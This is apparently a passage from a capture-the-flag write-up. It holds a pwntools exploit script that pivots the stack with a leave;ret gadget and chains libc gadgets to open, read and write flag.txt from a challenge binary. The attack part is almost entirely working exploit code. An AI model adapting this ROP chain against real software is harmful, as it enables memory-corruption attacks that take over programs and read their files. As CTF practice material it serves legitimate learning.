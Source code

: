 ```python
p.sendline(f'{exe.sym["inp"]}'.encode())

leave_ret = 0x00000000004013bc
pop_rax = 0x000000000003a738 + libc.address
pop_rdi = 0x0000000000021112 + libc.address
pop_rsi = 0x00000000000202f8 + libc.address
pop_rdx = 0x0000000000001b92 + libc.address
syscall = 0x00000000000bc3f5 + libc.address
rop = flat(
    pop_rax, 2,
    pop_rdi, 0x4040e0,
    pop_rsi, 0,
    pop_rdx, 0,
    syscall,

    pop_rdi, 3,
    pop_rsi, 0x404a00,
    pop_rdx, 0x100,
    libc.sym['read'],

    pop_rdi, 1,
    libc.sym['write'],
    b'flag.txt\x00'
    )
payload = p64(leave_ret) + rop
p.sendline(payload)
p.sendline(f'{stdout + 0x8}'.encode())
p.sendline(f'{leave_ret}'.encode())

p.interactive()
```

![here](/assets/images/flag30.png)
